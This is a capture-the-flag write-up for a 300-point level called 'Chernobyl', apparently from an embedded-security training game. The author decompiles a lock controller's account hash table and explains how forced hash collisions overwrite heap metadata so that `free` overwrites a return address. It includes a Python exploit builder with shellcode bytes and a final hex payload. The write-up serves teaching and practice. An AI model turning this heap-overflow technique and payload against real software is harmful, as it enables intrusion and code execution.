


# Chernobyl - 300 points
 
## The idea
Creating a hash-table collision to exploit of function `free` and overwrite a return value.

## The way
This is one of the challenges that took me the longest to solve. And more than that, to explain.<br />
In my explanation I will try to give you an intuition for the solution.<br />
By the way, it must be said in fairness that the trial and error here actually took a lot of time.<br />
And so remember that when I explain for example about `malloc`, it's not because I had prior knowledge.<br />
But because I stared at the function a lot, I debugged it and that's how I understood things.<br />
This is also true for the hash table structure implemented here, etc.

Also, I believe there are multiple (similar) ways to solve this challenge.<br />
Personally, I succeeded in 3 ways.<br />
The first time I solved it was very forced and difficult to explain.<br />
When I wanted to explain what I did, I solved the challenge the second time in a better way.<br />
And from this I understood a third way which is relatively "simpler" and smarter.

So I will explain the third way.<br />
Let's start.

### Black box test:
A black box test shows a program that contains an account management system:

</img>
</img>

Let's explore the system in more depth.

### Explore the code:
Function `main` calls `run`, where everything happens.<br />
Therefore we will probably expect to overwrite a return value.

Below is the function `run`.<br />
It took me a long time to decompile it manually, but a look at it will explain the whole program well.<br />
Read **the c code** afterwards carefully:

</img>
</img>
</img>

```c
typedef struct user
{
    char username[16]; // including 0 at the end
    short pin;
} user;

typedef struct table
{
    short total;          // number of elements in the table
    short num_of_entries; // actualy 2 ^ num_of_entries is the number of entries.
    short num_of_cells;   // number of cells in each entry
    user **entrys;        // pointer to array with pointer for each entry.
    short **counters;     // pointer to array with counters for num of elements per entry.
    
} table;

void run()
{
    char stack_memory[0x600];
    char *username;                          // In the original code this memory is registers.
    short pin;                               // In the original code this memory is registers.

    // 2^3 entries, 5 cells for each entry
    table *table_p = create_hash_table(3, 5) // In the original code this memory is registers.

    puts("Welcome to the lock controller.");
    puts("You can open the door by entering 'access [your name] [pin]'");
    puts();

    while(1)
    {
        // clean the buffer and get user input.
        for(int i = 0; i < 0x600; i++) {stack_memory[i] = 0;}
        getsn(stack_memory, 0x550);

        int i = 0;
        while(stack_memory[i])
        {
            // command: 'access [USERNAME] [PIN]'
            if(stack_memory[i] == 'a')
            {
                username = stack_memory + i + 7;
                i =+ 7;

                // Preparing the username string for printing (reset last character)
                while(stack_memory[i])
                {
                    if(stack_memory[i] == ' ')
                    {
                        stack_memory[i] = 0;
                        break;
                    }
                    i++;
                }
                i++;

                // Converting a numeric string to the corresponding numeric value.
                pin = 0;
                while(stack_memory[i])
                {
                    if(stack_memory[i] != ';')
                    {
                        pin *= 10;
                        pin += stack_memory[i] - 0x30;
                    }
                    i++;
                }
                
                // Pointless attempt to gain access.
                short exist_pin = get_from_table(table_p, username);
                if(exist_pin == -1) puts("No such box.");
                pin ^= exist_pin;
                pin &= 0x7fff;
                if(pin >= 0)
                {
                    if(exist_pin < pin) puts("Access granted");
                    else puts("Access granted; Access granted; but account not activated.");
                }
                else puts("Aceess denied");
            }

            // Command: 'new [USERNAME] [PIN]'
            else if(stack_memory[i] == 'n')
            {
                username = stack_memory + i + 4;
                i =+ 4;

                // Preparing the username string for printing (reset last character)
                while(stack_memory[i])
                {
                    if(stack_memory[i] == ' ')
                    {
                        stack_memory[i] = 0;
                        break;
                    }
                    i++;
                }
                i++;

                // Converting a numeric string to the corresponding numeric value.
                pin = 0;
                while(stack_memory[i])
                {
                    if(stack_memory[i] != ';')
                    {
                        pin *= 10;
                        pin += stack_memory[i] - 0x30;
                    }
                    i++;
                }

                if(pin >= 0)
                {
                    if(get_from_table(table_p, username) == -1)
                    {
                        printf("Adding user acount %s with pin %x..", username, pin);

                        // Save the new user. very interesting...
                        add_to_table(table_p, username, pin);
                    }
                    else puts("User already has an acount.");
                }
                else puts("Can not have a pin with higth bit set.");
            }

            // Command: any other..
            else
            {
                puts("Invalid command.");
                return 1;
            }
            
            // Move all over the ";" until the next command.
            while(stack_memory[i] == ';') stack_memory[i++] = 0;
        }
    }
}
```

The code above tells us a few things:
* The return value cannot be overridden using stack overflow
* `printf`'s weakness cannot be used
* Nothing interesting happens with the _access_ command, even if we enter correct user details.
* **There is a new functionality** to add users by a command that starts with n.
    * The length of the command is 3 letters, so we will call it "new" for convenience.
    * The new users will be saved in a hash table.

The new functionality was not known to us before, so there is reason to suspect that it is the heart of the matter.<br />
And so we will turn our attention to the following two functions: `create_hash_table` and `add_to_table`.<br />
The function `create_hash_table` creates a hash table structure that is allocated in heap memory.<br />
Let's see the table in memory immediately after the operation of the function:

</img>

* Blue: struct table
* Green: array with pointers to entries.
* Purple: array with counter of elements for each entry.
* Yellow: the entries.

Now we will go to the `add_to_table` function, which should fill the table with new users after the _new_ command.<br />
At this point I went to learn about hash tables, and I learned that **there is a function called `hash` that receives some input and returns the index where it will enter in the table**. And indeed, `add_to_table` calls `hash`. Let's look at the `hash`:

</img>

And this is how the same function looks in Python.<br />
(except for the return line, which `add_to_table` does the modulo operation itself)

```python
NUM_OF_ENTRIES = 8

def hash(username):
    index = 0
    
    for c in username:
        index += ord(c)
        index *= 31

    return index % NUM_OF_ENTRIES
```

In fact, following the discovery of the hash function, we can know in advance which entry in the table the username will enter.<br />
But, what can we do with it?

### How to exploit:
The following explanation assumes that you know very well how the release function works.<br />
If you do not know this, or if you have forgotten, turn to the Algiers challenge.

The thing that comes to mind is the challenge of Algiers.<br />
Can we overwrite heap metadata? And if so, what do we do with it?<br />
Let's try to answer the first question.

Let's look at what happens when you enter exactly 5 users to the same login (Of course we used the recovered hash to make sure that our input goes where we want):

Input: `new aa 1;new bb 2;new cc 3;new dd 4;new ee 5;`<br />
Output:
</img>
Heap memory:
</img>
* White: struct user (username and pin) x 5

Now we will try to insert another input to check whether it is really possible to overwrite the metadata or whether there is any integrity check on the amount of elements in the input (should be up to 5..)

Input: `new ff 6`<br />
Output:
</img>
Heap memory:
</img>
* The metadata of value 1 (the second) has been overridden.


```python
#last!
def h(string):
    index = 0
    for l in string:
        index += ord(l)
        index *= 31
    return index & 7

input1 = (b'new ' + b'\x0f\xef\x7f\x40\x7f\x11\x0f\x12\xb0\x12\xec\x4c' + b' 0;').hex() # קוד שפותח את הדלת ללא הבית 0 וללא הבית רווח. ראו תמונה
input2 = (b'new ' + b'\x22'*2 + b' 0;').hex()
input3 = (b'new ' + b'\x33'*2 + b' 0;').hex()
input4 = (b'new ' + b'\x44'*2 + b' 0;').hex()
input5 = (b'new ' + b'\x55'*2 + b' 0;').hex()

input6 = (b'new '+b'\xf2\x43'+ b'\x3c\x53'+ b'\xff\x0b' +b'\x44' + b' 0;').hex()# גם מדלג לאיבר האחרון ולכן לא דופק את מאללוק, וגם כאשר יבדק הנקסט של הצאנק המזוייף הוא יהיה כבר תפוס מהטבלה הבאה ולכן לא יפריע לגודל שחושב כבר
#וזאת אותה טכניקה כמו באלגירס. להתייחס למקום שנרצה לשנות כגודל של צאנק

input7 = (b'new a 0;').hex()
input8 = (b'new b 0;').hex()
input9 = (b'new c 0;').hex()
input10 = (b'new d 0;').hex()
input11 = (b'new e 0;').hex()

input12 = (b'new f 0;').hex() # after rehash.

input1 + input2 + input3 + input4 + input5 +input6 +input7 + input8 + input9 + input10 + input11 + input12 + '01'


```

## The cracking input (as bytes)
```
6e6577200fef7f407f110f12b012ec4c20303b6e657720222220303b6e657720333320303b6e657720444420303b6e657720555520303b6e657720f2433c53ff0b4420303b6e6577206120303b6e6577206220303b6e6577206320303b6e6577206420303b6e6577206520303b6e6577206620303b01
```